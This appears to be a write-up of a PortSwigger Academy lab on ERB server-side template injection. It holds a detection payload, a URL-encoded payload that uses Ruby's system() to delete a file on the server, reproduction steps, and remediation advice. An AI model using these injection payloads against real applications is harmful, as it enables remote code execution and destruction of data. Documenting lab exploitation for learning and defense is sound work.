



Here's a comprehensive English report for your lab solution, suitable for your GitHub portfolio:

---

# Server-Side Template Injection (SSTI) - ERB Template Exploitation

## Lab Information
- **Platform:** PortSwigger Web Security Academy
- **Lab Name:** Server-Side Template Injection (ERB)
- **Vulnerability Type:** Server-Side Template Injection (SSTI)
- **Template Engine:** ERB (Embedded Ruby)

---

## Executive Summary

This lab demonstrates a critical Server-Side Template Injection vulnerability in an e-commerce web application that uses Ruby's ERB templating engine. The application unsafely constructs ERB templates by directly embedding user-supplied input from the `message` parameter into template expressions without proper sanitization. This allows an attacker to execute arbitrary Ruby code on the server, leading to Remote Code Execution (RCE) and complete system compromise.

---

## Technical Analysis

### 1. Vulnerability Discovery

#### Initial Observation
While browsing the application, I noticed that when attempting to view details of an out-of-stock product, the application uses a GET request parameter called `message` to dynamically render a notification on the homepage:

```
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock
```

The application renders: *"Unfortunately this product is out of stock"*

This behavior suggested that user input was being processed by a server-side template engine.

#### Understanding ERB Syntax
Researching the ERB (Embedded Ruby) documentation revealed that ERB uses specific tags for code execution:
- `<%= expression %>` - Evaluates the expression and renders the result on the page
- `<% code %>` - Executes code without rendering output

### 2. Vulnerability Confirmation

#### Test Payload (Mathematical Operation)
To confirm template injection, I crafted a simple mathematical expression:

**Payload:**
```erb
<%= 7*7 %>
```

**URL-Encoded Request:**
```
GET /?message=<%25%3d+7*7+%25>
```
**Response Analysis:**
The server returned the value `49`, confirming that the ERB expression was evaluated and rendered. This definitively proved the presence of an SSTI vulnerability.

*Screenshot placeholder: Page showing "49" rendered from mathematical operation*

### 3. Exploitation

#### Researching Ruby System Commands
Ruby provides several methods for executing system commands:
- `system()` - Executes command and returns true/false
- `` `command` `` - Executes command and returns output
- `exec()` - Replaces current process with command

The `system()` method was chosen for its simplicity and availability.

#### Exploit Payload Construction
The objective was to delete the `morale.txt` file from Carlos's home directory:

**Payload:**
```erb
<%= system("rm /home/carlos/morale.txt") %>
```

**URL-Encoded Exploit:**
```
GET /?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
```

*Screenshot placeholder: Final exploit URL with URL-encoded payload*


### 4. Impact Assessment

**Severity: CRITICAL**

This vulnerability enables an attacker to:
- Execute arbitrary system commands with the web server's privileges
- Read, modify, or delete any files accessible to the web server process
- Establish reverse shells for persistent access
- Pivot to internal networks
- Exfiltrate sensitive data including database credentials, API keys, and source code
- Completely compromise the underlying server infrastructure

---

## Exploitation Steps (Reproduction Guide)

1. **Identify injection point:** Navigate to a product page and observe the `message` parameter in out-of-stock responses
2. **Detect template engine:** Submit `<%= 7*7 %>` and observe mathematical evaluation (result: 49)
3. **Escalate to RCE:** Use `<%= system("COMMAND") %>` to execute system commands
4. **Achieve objective:** Execute `<%= system("rm /home/carlos/morale.txt") %>` to delete the target file

---

## Remediation Recommendations

### Immediate Fixes
1. **Never directly embed user input** into template expressions
2. **Pass user input as template variables** rather than concatenating into template code
3. **Implement strict input validation** using allowlists of permitted characters

### Secure Implementation Example

**Vulnerable Code:**
```ruby
template = ERB.new("Unfortunately <%= #{params[:message]} %> is out of stock")
```

**Secure Code:**
```ruby
template = ERB.new("Unfortunately <%= product_name %> is out of stock")
result = template.result(binding)
```

### Defense-in-Depth Measures
1. **Sandbox template execution** in restricted environments
2. **Run applications with least privilege** (non-root user, restricted filesystem access)
3. **Implement Web Application Firewall (WAF)** rules to detect template injection patterns
4. **Regular security testing** including automated scans and manual penetration testing
5. **Keep template engines updated** to benefit from security patches
